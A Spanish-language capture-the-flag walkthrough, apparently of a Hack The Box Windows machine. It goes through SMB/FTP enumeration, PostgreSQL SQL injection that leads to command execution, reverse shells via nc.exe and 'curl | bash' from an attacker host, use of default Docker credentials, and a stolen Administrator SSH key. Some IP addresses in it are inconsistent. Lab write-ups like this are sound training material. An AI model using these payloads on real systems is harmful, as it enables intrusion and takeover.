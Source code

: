## Summary

Tags: #SMB #FTP #BurpSuite #HTTPS #PostgreSQL #Netcat #Docker #Contenedor #Windows #NT-AuthoritySystem #RCE #ReverShell #DockerToolbox #Id_RSA

- IP -> 10.10.11.130
- Ports -> TCP (21,22,135139,443,445,5985), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 21 -> FTP
    - 22 -> SSH
    - 135 -> RPC
    - 443 -> HTTPS
    - 445 -> SMB
    - 5985 -> WinRM

## Recon

```bash
❯ smbclient -L ❮IP❯                   # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
❯ smbclient -L ❮IP❯ -N                # Lista recursos compartidos a nivel de red haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ smbmap -H ❮IP❯                      # Herramienta elternativa para ver si nos reporta algo mas y nos reporta los permisos (WRITE, READ)
❯ smbmap -H ❮IP❯ -u 'null'            # Herramienta elternativa para ver si nos reporta algo mas haciendo uso de un null sesion (sin credencial alguna)
```

```bash
❯ crackmapexec smb ❮IP❯               # Para listar recursos compartidos de Windows
```

Anonimous esta permitido
```bash
❯ ftp ❮IP❯                               # Si el servidor nos lo permite nos podemos conectar como Anonymous sin colocar password.
```
Encontramos un archivo que se llama 'Docker-Toolbox'

```bash
❯ openssl s_client -connect ❮IP❯:443     # Para conectarnos al openssl e inspeccionar el certificado del puerto 443
```
Encontramos un nuevo dominio 'admin.megalogistic.com'
Lo agregamos al **/etc/hosts** y despues entramos a la web para ver que hay y encontramos un panel de autenticacion que la momento de hacerle una inyeccion SQL este nos devuelve un error y nos pone que hay un **PostgreSQL**.

Ahora nos disponemos a abrir BurpSuite e iunterceptaremos las peticiones de la pagina 
* Nos damos cuenta que la data esta viajando por url-encode, por lo que hacemos **Ctrl + Shift + u** para url-decodear
* Buscamos en Google 'HackTricks: [Hacktricks-PostgreSQL](https://book.hacktricks.xyz/pentesting-web/sql-injection/postgresql-injection)' SQLI para **PostgreSQL** y encontramos lo siguiente 
```bash
❯ username=1' ; select pg_sleep(5);-- - $password=1'    # La web debe de tardar 5 seg en responder 
```

Ahora como podemos injectar comandos, podemos tener un **RCE (Remote Code Execution**) 
* [HackTricks-PostgreSQL-RCE](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql#rce-to-program)
```bash
❯ DROP TABLE IF EXISTS cmd_exec;                    # Elimina la tabla si es que existe
❯ CREATE TABLE cmd_exec(cmd_output text);           # Crea una tabla 
❯ COPY cmd_exec FROM PROGRAM 'id';                  # Por medio de esa tabla podemos inyectar un comando 
❯ SELECT * FROM cmd_exec;
```

Podemos colocar un **+** para los espacios o seleccionar y poner **Ctrl + u** y url-encodeamos, para poder colocarlos en BurpSuite y este no nos arrije un error
```bash
❯ CREATE+TABLE+cmd_exec(cmd_output+text);--+-                              # Creamos una tabla 
❯ COPY+cmd_exec+FROM+PROGRAM+'\\10.10.14.2\smbFolder\nc.exe+-e+cmd+10.10.14.2+443';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a conectarnos a un recurso compartido
	# IP = IP de atacante 
	# smbFolder = Nombre del folder del recurso compartido
	# nc.exe = Netcat para Windows
	# cmd = Entablar una ReverShell con la maquina de atacante
	# 443 = Puerto de la ReverShell de la maquina de atacante 
```

Buscamos Netcat en nuestra maquina de atacante y lo colocamos en el folder que vamos a compartir, este Netcat es para Windows
```bash 
❯ locate nc.exe
```

Para compartir los recursos con la maquina victima 
```bash
❯ impacket-smbserver smbFolder $(pwd) -smb2support # Creamos un servicio con SMB 

	# smbFolder = Nos creara un servicio compartido llamado 'smbFolder'
	# pwd = Sincronizado con la ruta absoluta actual 
	# smb2support = En Windows 10 le damos soporte a la version 2
```

Nos ponemos en modo escucha para recibir la ReverShell de la maquina victima 
```bash
❯ rlwrap nc -nlvp 443

	# nc = Netcat 
	# n = No DNS
	# l = Modo escucha, conexiones entrantes
	# v = verbose
	# p = numero local de puerto en esucha

```


Miramos que no se conecta, enotnces lo intentamos como si fuera una maquina Linux
```bash
❯ COPY+cmd_exec+FROM+PROGRAM+'curl+10.10.14.2/Shell|bash';--+-          # Por medio de esa tabla podemos inyectar un comando, este nos ayudara a que la maquina victima busque el archivo Shell que contiene la ReverShell en nuestra maquina de atacante y lo procese con bash 
```

Creamos el archivo de la ReverShell
```bash
nvim Shell
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.13/443 0>&1
```

```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80 para compartir el recurso 
```

```bash
❯ nc -nlvp 443                              # nos ponemos en escucha para recibir la ReverShell
```

## User

Una vez dentro, nos damos cuenta que estamos denmtro de un contenedor '127.17.0.2'
```bash
❯ hostname -I                                # Nos muestra solo la direccion IP
```
Hacemos tratamiento de la pseudo-consola

* Buscamos en Google credenciales tipicas de [docker-toolbox](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password) y nos muestra estas: **user:docker, passwd:tcuser**
* Buscaremos que puertos estan abiertos en la maquina victima 

```bash
❯ route -n                                   # Para mirar las routing tables y encontramos la 127.17.0.1
```

Por si el comando **ping** no esta disponible
```bash
❯ (echo ‘’ > /dev/tcp/172.16.0.1/22) 2>/dev/null && echo “[+] Puerto abierto” || echo “[+] Puerto cerrado”
```
Nos damos cuenta que el puero 22 del contenedor esta OPEN, por lo que procedemos a conectarnos con SSH 

```bash
❯  ssh docker@127.17.0.1                                    # Para conectarnos por ssh en el puerto default 22 del contenedor docker
```
Entramos a la inteface y nos damos cuenta que somos el usuario 'docker' 

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
	# (root) NOPASSWD: /usr/bin/find -> Puede ejecutar un comando sin necesidad de password
```
Miramo que nos podemos convertir en root en el contenedor y eso nos ayudara a buscar la flag user.txt

Buscaremos la flag dentro del usaurio docker, pero o hay nada. Por lo que la buscaremos en la maquina de manera general.
```bash
❯ find  / -name file.txt 2>/dev/null               # Para buscar un archivo en el sistema desde la raiz
```

Ahora nos dirijimos a la raiz '/' y encontramos un dir **'C > Users > Administrator'**, esta es la estructura de Windows. 
```bash
❯ ls -la                          # Podemos observar todos los archivos del dir inclyendo los ocultos 
```
Encontramos un dir **.ssh**. Esto quiere decir que puede que exista un **id_rsa**, copiamos su contenido en nuestra maquina de atacante en un archivo llamada 'id_rsa' y le damos el privilegio 600

 ```bash
❯ chmod 600 id_rsa                              # Para darle un permiso 600 a la id_rsa      
```

```bash
❯ ssh -i id_rsa Administrator@10.10.10.236      # Nos conectamos por ssh teniendo un id_rsa con privilegio 600
```
Nos podemos conectar desde nuestra maquina de atacante ya que en el escaneo de nmap, observamos que el puerto 22 estaba OPEN

## Root

Somo el usuario 'Administrator'  en Windows  
```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ ipconfig                                         # Nos muestra las interfaces y las direcciones IP de Windows
```
Miramos que estemos dentro de la IP de la maquina victima

Nos ponemos a buscar la flag root.txt